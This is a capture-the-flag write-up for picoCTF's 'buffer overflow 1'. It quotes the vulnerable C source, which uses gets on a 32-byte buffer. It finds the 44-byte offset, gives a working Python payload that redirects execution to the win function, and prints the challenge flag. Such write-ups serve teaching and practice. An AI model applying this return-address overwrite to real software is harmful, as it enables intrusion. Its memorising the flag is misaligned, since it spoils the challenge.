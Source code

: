 # buffer overflow 1
## Question
>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](files/vuln)? You can find it in `/problems/buffer-overflow-1_1_8a16ff6a1b3cfb2e42c08d9090051a5d` on the shell server. [Source](files/vuln.c).

## Hint
>This time you're actually going to have to control that return address!

>Make sure you consider Big Endian vs Little Endian.

# Solution
Let's see what the code looks like. Below is the `main` function:

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

It doesn't take any argument but prompts for a string and calls the `vuln` function. This latest stores this string to a buffer with a size of 32 bytes, using `gets`, which is a bad idea. Then, it displays the memory address where it landed.

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

Now, we have a function calls `win` that displays the flag:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

At this stage, it is obvious that we have to overflow the buffer to call the `win` function. Let's test the executable.

~~~~
$ ./vuln 
Please enter your string: 
whatever
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
$ python -c "print 'A'*32" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
$ python -c "print 'A'*44" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x8048600
Segmentation fault (core dumped)
$ python -c "print 'A'*48" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault (core dumped)
~~~~

OK, let's get the address of the `win` function:
~~~~
$ readelf -s vuln
[SNIP]
65: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
66: 080486d0    93 FUNC    GLOBAL DEFAULT   14 __libc_csu_init
67: 080485cb   100 FUNC    GLOBAL DEFAULT   14 win
68: 00000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.0
69: 00000000     0 FUNC    GLOBAL DEFAULT  UND fopen@@GLIBC_2.1
70: 0804a044     0 NOTYPE  GLOBAL DEFAULT   26 _end
[SNIP]
~~~~

Now that we know that the `win` function is located at memory address `0x080485cb`, we can write our payload. We can use python for that:
~~~~
$ python
Python 2.7.12 (default, Oct  8 2019, 14:14:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import struct
>>> print repr(struct.pack('<I', 0x080485cb))
'\xcb\x85\x04\x08'
~~~~

Note: the code above returns a bytes object containing the value `0x80485cb` packed as unsigned int (`I`) in little endian (`<`).

OK, now let's exploit:
~~~~
$ python -c "import struct; print 'A'*44 + struct.pack('<I', 0x080485cb)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy14941911}Segmentation fault (core dumped)
~~~~

# Flag
`picoCTF{addr3ss3s_ar3_3asy14941911}`
